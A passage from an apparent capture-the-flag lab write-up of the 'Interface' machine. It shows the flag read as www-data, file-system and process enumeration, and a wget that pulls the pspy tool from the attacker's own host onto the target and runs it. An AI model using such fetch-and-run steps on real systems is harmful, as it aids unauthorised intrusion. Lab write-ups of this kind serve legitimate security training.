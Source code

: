 And I can read `user.txt` from dev’s home directory:

```

www-data@interface:/home/dev$ cat user.txt
536a3f62************************

```

## Shell as root

### Enumeration

#### File System

There’s not much else of interest in dev’s home directory. www-data’s home directory (`/var/www`) has directories for the two virtual hosts (and an empty `html` folder):

```

www-data@interface:~$ ls
api  html  starting-page

```

There’s nothing too interesting in these either.

`/srv` and `/opt` are both empty as well. Not much to find.

#### Processes

Just looking at the processes running (`ps auxww`) doesn’t show much of interest. To look for cron jobs and other running tasks, I’ll host [pspy](https://github.com/DominicBreuker/pspy) from my box and upload it to Interface:

```

www-data@interface:/dev/shm$ wget 10.10.14.6/pspy64
--2023-02-13 19:58:04--  http://10.10.14.6/pspy64
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: 'pspy64'

pspy64              100%[===================>]   2.94M  4.03MB/s    in 0.7s

2023-02-13 19:58:05 (4.03 MB/s) - 'pspy64' saved [3078592/3078592]

```

I’ll set it as executable and run it:

```

www-data@interface:/dev/shm$ chmod +x pspy64
www-data@interface:/dev/shm$ ./pspy64
...[snip]...

```
